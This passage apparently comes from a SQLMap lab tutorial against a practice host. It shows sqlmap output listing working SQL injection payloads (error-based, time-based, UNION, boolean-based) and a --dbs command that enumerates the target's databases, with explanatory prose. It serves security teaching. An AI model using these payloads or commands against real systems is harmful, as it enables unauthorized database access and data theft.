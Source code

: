 ```bash
    Type: error-based
    Title: MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)
    Payload: cat=1 AND EXTRACTVALUE(1846,CONCAT(0x5c,0x716a787071,(SELECT (ELT(1846=1846,1))),0x7170766a71))

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind
    Payload: cat=1 AND SLEEP(5)

    Type: UNION query
    Title: Generic UNION query (NULL) - 11 columns
    Payload: cat=1 UNION ALL SELECT CONCAT(0x716a787071,0x714d486661414f6456787a4a55796b6c7a78574f7858507a6e6a725647436e64496f4965794c6873,0x7170766a71),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- HMgq
---
[08:45:16] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Nginx, PHP 5.6.40
back-end DBMS: MySQL >= 5.1
[text removed]
```

The results in the above terminal show us that different types of SQL injection, such as boolean-based blind, error-based, time-based blind, and UNION query, are identified in the target URL. These are different techniques for exploiting a SQL injection vulnerability. For example, in the boolean-based blind SQL injection, the SQL query is modified, and a boolean expression (that is always true, e.g., 1=1) is included with the query to extract the information. Whereas in the error-based SQL injection, some queries are intentionally modified to generate errors in the results sent by the database. These errors often contain valuable information about the data. Similarly, other SQL injection techniques can also be employed to exploit a database.

The results from the command we executed for our target `http://sqlmaptesting.thm/search/cat=1` tell us that different types of SQL injection are possible on this URL. Let's use SQLMap's flags, which we studied earlier, to exploit them and extract some valuable data from the database.

To fetch the databases, we use the flag `--dbs`. Let's try this flag out with our vulnerable URL:

```bash
user@ubuntu:~$ sqlmap -u http://sqlmaptesting.thm/search/cat=1 --dbs
       __H__
 ___ ___[(]_____ ___ ___  {1.2.4#stable}
|_ -| . [(]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[text removed]
[08:49:00] [INFO] resuming back-end DBMS' mysql' 
[08:49:00] [INFO] testing connection to the target URL
[08:49:01] [INFO] heuristics detected web page charset 'ascii'
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: cat (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: cat=1 AND 2175=2175
[text removed]    
[08:49:01] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Nginx, PHP 5.6.40
back-end DBMS: MySQL >= 5.1
[08:49:01] [INFO] fetching database names
available databases [2]:
[*] users
[*] members

```